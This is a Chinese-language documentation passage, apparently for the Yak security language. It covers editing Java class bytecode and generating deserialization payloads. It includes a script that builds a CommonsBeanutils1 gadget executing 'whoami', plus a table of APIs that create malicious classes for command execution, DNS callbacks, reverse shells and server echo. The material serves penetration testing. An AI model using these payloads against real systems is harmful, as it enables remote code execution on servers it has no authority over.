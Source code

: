 ### 字节码修改

通过对结构体属性的修改或通过结构体方法可以配置类结构的信息，再调用Byte方法可以重新生成字节数组，实现对class文件的修改，在上面的案例中，我们将/tmp/test.class文件解析为了结构化对象。下面的案例将会修改类名、java版本，并生成新class文件

```Go
classIns.SetClassName("newTest")
classIns.MajorVersion = 50
file.Save("/tmp/newTest.class", classIns.Bytes())
```

### 字节码生成

上面的案例中将修改后的class对象输出为bytes类型，除此外，还可以输出为bcel class，用于payload构造，或json格式字节码，可以用来查看class内部结构或对class信息修改。例如：

```Go
buildPayload(classIns.Bcel()) // 构造payload
dump(classIns.Json()) // 查看class内部结构
```

### 生成序列化数据

得益于java字节码修改的基础设施，可以在构造序列化payload时对class进行配置，如下是使用Yak脚本来生成CB1的payload，其中对class设置了版本为`52`、执行命令为`whoami`、class名为`djRiEemN`

```Go
version = 52
command = "whoami"
className = "djRiEemN"
gadgetObj = yso.GetCommonsBeanutils1JavaObject(
  yso.useRuntimeExecEvilClass(command),
  yso.evilClassName(className),
  yso.majorVersion(version)
)~
gadgetBytes = yso.ToBytes(gadgetObj)~
```

### Yak生成恶意字节码 API

当然，除了上述这个案例之外，Yak语言还支持单独生成恶意类字节码，用户可以使用`yso.Generate...`相关的API 来生成恶意字节码。

| 功能名称                                         | 描述                                        |
| ------------------------------------------------ | ------------------------------------------- |
| GenerateClassObjectFromBytes                     | 从字节码生成恶意类对象                      |
| GenerateRuntimeExecEvilClassObject               | 生成执行系统命令的恶意类对象                |
| GenerateProcessBuilderExecEvilClassObject        | 通过ProcessBuilder执行系统命令的恶意类对象  |
| GenerateProcessImplExecEvilClassObject           | 生成使用ProcessImpl执行系统命令的恶意类对象 |
| GenerateDNSlogEvilClassObject                    | 生成用于DNS记录的恶意类对象                 |
| GenerateSpringEchoEvilClassObject                | 生成Spring框架回显的恶意类对象              |
| GenerateModifyTomcatMaxHeaderSizeEvilClassObject | 修改Tomcat最大头部大小的恶意类对象          |
| GenerateTcpReverseEvilClassObject                | 生成TCP反向连接的恶意类对象                 |
| GenerateTcpReverseShellEvilClassObject           | 生成TCP反向Shell的恶意类对象                |
| GenerateTomcatEchoClassObject                    | 生成Tomcat回显的恶意类对象                  |
| GenerateMultiEchoClassObject                     | 生成多重回显的恶意类对象                    |
| GenerateHeaderEchoClassObject                    | 生成头部回显的恶意类对象                    |
| GenerateSleepClassObject                         | 生成使目标休眠的恶意类对象                  |

